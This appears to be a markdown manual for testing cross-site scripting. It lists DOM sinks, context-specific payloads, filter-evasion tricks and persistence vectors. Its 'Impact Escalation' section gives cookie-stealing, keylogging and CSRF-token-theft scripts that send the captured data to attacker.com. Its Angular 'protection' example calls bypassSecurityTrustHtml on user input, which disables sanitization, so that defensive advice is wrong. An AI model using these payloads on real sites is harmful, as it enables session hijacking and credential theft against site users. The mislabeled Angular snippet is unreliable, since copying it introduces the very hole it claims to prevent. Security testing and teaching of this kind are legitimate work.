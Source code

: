 Advanced XSS Testing Manual

# Advanced XSS Testing Manual

## Comprehensive Guide to DOM-Based, Reflected, and Stored XSS

## 1\. DOM-Based XSS Deep Dive

## Which Sinks Can Lead to DOM-XSS Vulnerabilities?

The following are some of the main sinks that can lead to **DOM-based XSS** vulnerabilities:

- `document.write()`
- `document.writeln()`
- `document.domain`
- `element.innerHTML`
- `element.outerHTML`
- `element.insertAdjacentHTML`
- `element.onevent` *(e.g., `onclick`, `onerror`, etc.)*

### jQuery Sinks That Can Lead to DOM-XSS:

The following jQuery functions are also **sinks** that can introduce DOM-XSS vulnerabilities:

- `add()`
- `after()`
- `append()`
- `animate()`
- `insertAfter()`
- `insertBefore()`
- `before()`
- `html()`
- `prepend()`
- `replaceAll()`
- `replaceWith()`
- `wrap()`
- `wrapInner()`
- `wrapAll()`
- `has()`
- `constructor()`
- `init()`
- `index()`
- `jQuery.parseHTML()`
- `$.parseHTML()`

### 1.1 Methodology

1.  **Source Identification**
    *   `document.location` (URL fragments)
    *   `window.name`
    *   `document.referrer`
    *   `postMessage` events
    *   Web Storage (localStorage/sessionStorage)
2.  **Sink Analysis**
    
    | Sink Type | Dangerous Methods | Example Payload |
    | --- | --- | --- |
    | HTML Injection | `innerHTML, outerHTML, document.write()` | `<img src=x onerror=alert(1)>` |
    | JS Execution | `eval(), setTimeout(), Function()` | `';alert(1);//` |
    | jQuery | `$(), html(), append()` | `<img src=x onerror=alert(1)>` |
    

### 1.2 Advanced Testing Techniques

#### HTML Sink Testing

1\. Inject: window.name = "xss\_test\_"+Math.random().toString(36).substr(2,8);
2. Open Chrome DevTools → Elements tab
3. Search DOM (Ctrl+F) for your test string
4. Analyze context:
   - Inside attributes? Try: " autofocus onfocus=alert(1) x="
   - Inside HTML? Try: <svg onload=alert(1)>
   - Inside script? Try: '-alert(1)-'

#### JavaScript Sink Testing

1\. Search all JS files (Ctrl+Shift+F) for:
   - location.hash
   - document.cookie
   - window.name
2. Set breakpoints in suspicious sinks
3. Trace variable flow through execution
4. Test progressive payloads:
   - Basic: alert(1)
   - Context-aware: '-alert(1)-'
   - Filter evasion: alert\`1\`

### 1.3 Framework-Specific Vulnerabilities

#### AngularJS XSS

<div ng-app>
  {{constructor.constructor('alert(1)')()}}
</div>

#### jQuery XSS

// Classic hashchange exploit
<iframe src="https://vulnerable.com#" onload="this.src+='<img src=x onerror=alert(1)>'">

### 1.4 Exploiting DOM XSS with Different Sources and Sinks

In principle, a website is vulnerable to DOM-based cross-site scripting if there is an executable path via which data can propagate from source to sink. Different sources and sinks have varying properties that affect exploitability:

#### Common Sink Patterns

| Sink | Exploitability | Example Payload | Lab Reference |
| --- | --- | --- | --- |
| `document.write()` | High - accepts script tags | `document.write('<script>alert(document.domain)</script>')` | DOM XSS using location.search (Solved) |
| `innerHTML` | Medium - requires alternative vectors | `element.innerHTML='<img src=1 onerror=alert(1)>'` | DOM XSS in innerHTML sink (Solved) |
| `location.hash` | Context-dependent | `#<img src=x onerror=alert(1)>` | jQuery hashchange (Solved) |

#### Framework-Specific Sinks

##### jQuery Vulnerabilities

// Attribute manipulation
"$('#backLink').attr("href", location.search);"
// Exploit: "?returnUrl=javascript:alert(document.domain)"

// Selector injection
"$(window).on('hashchange', function() {"
"    $(location.hash).scrollIntoView();"
"});"
// Exploit via iframe:
"<iframe src="https://vulnerable.com#" onload="this.src+='<img src=1 onerror=alert(1)>'">"

##### AngularJS Vulnerabilities

<div ng-app>
  {{constructor.constructor('alert(1)')()}}
</div>
// Lab: DOM XSS in AngularJS expression (Not solved)

#### Hybrid DOM XSS Patterns

| Type | Description | Example | Lab Status |
| --- | --- | --- | --- |
| Reflected DOM | Server echoes input into JS context | `eval('var data = "'+userInput+'"')` | Reflected DOM XSS (Not solved) |
| Stored DOM | Server stores then serves malicious payload | `element.innerHTML = storedData` | Stored DOM XSS (Not solved) |

#### Complete Sink Reference

##### Native JavaScript Sinks

*   `document.write()`
*   `document.writeln()`
*   `element.innerHTML`
*   `element.outerHTML`
*   `element.insertAdjacentHTML`
*   `element.onevent`

##### jQuery Sinks

*   `add()`
*   `html()`
*   `append()`
*   `prepend()`
*   `jQuery.parseHTML()`
*   `$() (selector)`

#### Prevention Checklist

*   Avoid dynamic HTML writing with untrusted data
*   Use `textContent` instead of `innerHTML`
*   Implement Content Security Policy (CSP)
*   Sanitize inputs in framework contexts (AngularJS, React, etc.)
*   Regularly audit third-party libraries

## 2\. Reflected XSS Mastery

### 2.1 Context-Specific Payloads

| Context | Payload | Bypass Technique |
| --- | --- | --- |
| HTML Text | `<script>alert(1)</script>` | Case variation: <ScRiPt> |
| HTML Attribute | `" onmouseover=alert(1) x="` | New events: onpointerenter |
| JavaScript String | `'-alert(1)-'` | Template literals: \`${alert(1)}\` |
| URL Context | `javascript:alert(1)` | Data URI: data:text/html,<script>alert(1)</script> |

### 2.2 Advanced Filter Evasion

// Chrome XSS Auditor Bypass
<script>
location.href = 'javascript:alert%281%29';
</script>

// UTF-7 Bypass (IE)
+ADw-script+AD4-alert(1)+ADw-/script+AD4-

// JavaScript Obfuscation
eval('al'+'ert(1)');
window\['al'+'ert'\](1);

## 3\. Stored XSS Professional

### 3.1 Entry Point Discovery

*   **User Content**: Comments, profiles, uploads
*   **Metadata**: Filenames, EXIF data
*   **API Responses**: JSON/XML responses
*   **Admin Features**: Logs, moderation queues

### 3.2 Advanced Persistence Techniques

// SVG XSS
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>

// PDF Embedded JS
/Names <</JavaScript <</Names \[(alert(1))\]>>>>

// HTML5 Storage
<script>
localStorage.setItem('xss', '<img src=x onerror=alert(1)>');
location.reload();
</script>

### 3.3 Impact Escalation

// Session Hijacking
document.location='https://attacker.com/?cookie='+document.cookie;

// Keylogger
document.onkeypress = function(e) {
    new Image().src='https://attacker.com/?k='+e.key;
};

// CSRF Token Theft
fetch('/account')
    .then(r => r.text())
    .then(t => {
        let token = t.match(/csrfToken = '(.\*?)'/)\[1\];
        new Image().src='https://attacker.com/?token='+token;
    });

## 4\. XSS Prevention Checklist

### 4.1 Defense Mechanisms

| Technique | Implementation | Effectiveness |
| --- | --- | --- |
| Content Security Policy | `Content-Security-Policy: default-src 'self'` | High (when properly configured) |
| Input Validation | Whitelist allowed characters | Medium (context-dependent) |
| Output Encoding | HTML Entity Encoding: &lt;script&gt; | High (when context-aware) |
| Secure Cookies | `Set-Cookie: HttpOnly; Secure` | Mitigates impact |

### 4.2 Framework Protections

// React (JSX auto-escapes)
<div>{userInput}</div>

// Angular (sanitization)
import { DomSanitizer } from '@angular/platform-browser';
this.safeHtml = this.sanitizer.bypassSecurityTrustHtml(userInput);

// Vue (v-html directive)
<div v-html="sanitizedContent"></div>

## 5\. Professional Testing Tools

### 5.1 Automated Scanning

*   **Burp Suite**: DOM Invader extension
*   **ZAP**: Active scanner with XSS rules
*   **XSStrike**: Advanced detection engine

### 5.2 Manual Testing Utilities

// XSS Polyglot
javascript:/\*--></title></style></textarea></script><xmp><svg/onload='+/"/+/onmouseover=1/+/\[\*/\[\]/+alert(1)//'>

// Cheatsheets
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

**Legal Note:** Always obtain proper authorization before testing. This guide is for educational purposes only.

Last updated: 2023-11-15 | Based on OWASP Top 10 2021
